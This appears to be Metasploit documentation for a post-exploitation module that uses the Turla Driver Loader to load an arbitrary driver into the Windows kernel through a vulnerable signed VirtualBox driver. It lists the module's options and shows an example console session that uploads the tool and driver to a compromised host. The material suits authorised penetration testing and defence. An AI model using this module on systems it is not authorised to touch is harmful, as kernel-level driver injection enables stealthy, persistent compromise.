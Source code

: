 ## Overview
This module uses the Turla Driver Loader to inject an arbitrary driver into
kernel space on a target by way of a vulnerability in a signed Oracle VirtualBox 
driver.  The tool itself must be obtained and installed by the end user of this
module.  At present, the tool can be obtained at https://github.com/hfiref0x/TDL

By default, the module expects the tool to be at <Msf::Config.local_directory>/tdl/Furutaka.exe, which typically resolves to ~/.msf4/local/tdl/Furutaka.exe.  The driver to be installed is by default located at <Msf::Config.local_directory>/tdl/driver.sys

## Module Options
- **SESSION** - This option specifies the remote session to upload and launch the tool on.
- **DRIVER** - This option specifies the location of the driver file to be installed on the remote system.
- **TDL** - This option specifies the location of the TDL tool (Furutaka.exe) itself.
- **REMOTEPATH** - This option specifies a writable directory on the target system in which files will be uploaded.  Default is c:\\windows\\temp\\

### Basic Setup Information
First, one must obtain the tool itself and copy it to ~/.msf4/local/tdl/ along with the driver they wish to inject.  In lieu of this, the user can specify the location of both the tool and the driver via the aforementioned module options.

The following is an example session using the module to inject a driver into the kernel address space on an active remote session

```
msf exploit(handler) > use post/windows/manage/turla
msf post(turla) > set session 1
session => 1
msf post(turla) > run

[*] Uploading Turla driver loader ...
[*] File c:\windows\temp\kcyhguqk.exe being uploaded..
[*] Uploading driver ....
[*] File c:\windows\temp\sblhwunk.sys being uploaded..
[*] Executing TDL ...
[-] Post interrupted by the console user
[*] Post module execution completed
```

